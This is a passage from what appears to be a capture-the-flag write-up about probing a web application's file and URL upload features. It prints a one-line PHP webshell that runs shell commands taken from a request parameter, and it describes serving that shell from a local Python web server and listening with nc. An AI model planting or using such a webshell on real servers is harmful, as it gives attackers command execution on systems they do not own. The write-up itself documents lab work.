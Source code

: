 If I upload a file with text in it, like a PHP webshell, the page does
still return a link, but that link is not viewable in Firefox:

![](/img/image-20210819183029723-16294238590576.png)

That's because the response contains a content type header of an image:



    HTTP/1.1 200 OK
    Date: Thu, 19 Aug 2021 22:30:14 GMT
    Server: Apache/2.4.41 (Ubuntu)
    Content-Disposition: inline; filename=28C0mwXLXZBu1BkVHClV
    Content-Length: 44
    Last-Modified: Thu, 19 Aug 2021 22:30:13 GMT
    Cache-Control: no-cache
    Connection: close
    Content-Type: image/jpg

    <?php echo shell_exec($_REQUEST["cmd"]); ?>



Still, the text is in there, and not executed, which means the site
isn't handling the upload as PHP.

Shifting to the url upload, I started a Python webserver
(`python3 -m http.server 80`) in a directory with images and the PHP
webshell. Passing it my url produced the same results as with the local
file upload. Images were displayed back. Text was returned and not
executed.

#### Tech Stack

The HTTP response headers didn't give much information about the server
beyond that it's Apache:



    HTTP/1.1 200 OK
    Date: Thu, 19 Aug 2021 21:35:50 GMT
    Server: Apache/2.4.41 (Ubuntu)
    Vary: Accept-Encoding
    Connection: close
    Content-Type: text.md; charset=utf-8
    Content-Length: 2050



I did kill the webserver and listen with `nc` to catch one of the HTTP
requests coming from the site:


